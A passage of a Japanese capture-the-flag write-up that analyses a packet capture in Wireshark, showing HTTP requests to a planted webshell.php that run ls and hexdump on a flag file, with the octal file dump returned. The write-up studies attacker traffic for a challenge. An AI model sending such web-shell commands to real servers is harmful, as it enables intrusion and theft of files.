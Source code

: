 tcpdump でパケットをキャプチャした結果のようです。[Wireshark](https://www.wireshark.org/) というパケット解析ツールで開いてみると、以下のような不穏な HTTP 通信が確認できました。

```
GET /webshell.php?cmd=ls%20%2Dl%20%2Fhome%2Fctf4b%2Fflag HTTP/1.1
Host: 192.168.75.230
User-Agent: curl/7.54.0
Accept: */*
```

```
HTTP/1.1 200 OK
Date: Sun, 07 Apr 2019 11:55:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 130
Content-Type: text/html; charset=UTF-8

<html>
<head>
<title>Web Shell</title>
</head>
<pre>
-rw-r--r-- 1 ctf4b ctf4b 767400 Apr  7 19:46 /home/ctf4b/flag
</pre>
</html>
```

Web シェルが設置された Web サーバで OS コマンドが実行されているように見えます。攻撃者は `/home/ctf4b/flag` というファイルが存在しているか確認していたようです。この次の通信を見てみましょう。

```
GET /webshell.php?cmd=hexdump%20%2De%20%2716%2F1%20%22%2502%2E3o%20%22%20%22%5Cn%22%27%20%2Fhome%2Fctf4b%2Fflag HTTP/1.1
Host: 192.168.75.230
User-Agent: curl/7.54.0
Accept: */*
```

```
HTTP/1.1 200 OK
Date: Sun, 07 Apr 2019 11:55:27 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

<html>
<head>
<title>Web Shell</title>
</head>
<pre>
037 213 010 000 012 325 251 134 000 003 354 375 007 124 023 133
327 007 214 117 350 115 272 110 047 012 212 122 223 320 022 252
164 220 052 275 051 204 044 100 050 011 044 024 101 120 274 166
244 010 010 050 315 002 110 023 024 244 012 330 005 351 012 012
322 024 245 011 202 205 242 202 212 337 204 216 242 357 175 336
︙
376 317 360 377 046 303 050 030 005 243 140 024 214 202 121 060
012 106 301 050 030 005 243 140 024 214 202 121 060 012 106 301
050 030 005 243 140 024 214 202 121 060 012 106 301 050 030 005
243 140 024 214 202 121 060 012 106 301 050 030 005 344 000 000
050 241 022 115 000 060 014 000
</pre>
</html>
```
